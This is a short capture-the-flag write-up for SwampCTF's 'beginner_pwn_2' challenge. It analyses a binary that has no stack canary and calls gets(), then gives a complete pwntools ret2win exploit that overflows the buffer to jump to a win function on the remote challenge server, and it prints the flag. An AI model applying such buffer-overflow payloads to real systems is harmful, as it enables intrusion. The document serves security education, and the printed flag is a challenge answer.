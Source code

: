 https://ctftime.org/event/2573

# beginner_pwn_2 (pwn)

In this challenge there is a function which is not called. Can you fix that?

nc chals.swampctf.com 40001

## Analysis

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

`main` @ `0x401228`:

- Calls `gets(local_12)`

`win` @ `0x401186`:

- Prints the flag

## Solution

1) ret2win

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./binary", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chals.swampctf.com", 40001)

payload = b""
payload += b"A" * 0x12
payload += p64(elf.sym["win"])
p.sendline(payload)

p.readuntil(b"swampCTF{")

print("swampCTF{" + p.readuntil(b"}").decode()) # swampCTF{1t5_t1m3_t0_r3turn!!}
```

## Flag
`swampCTF{1t5_t1m3_t0_r3turn!!}`

smiley 2025/03/29
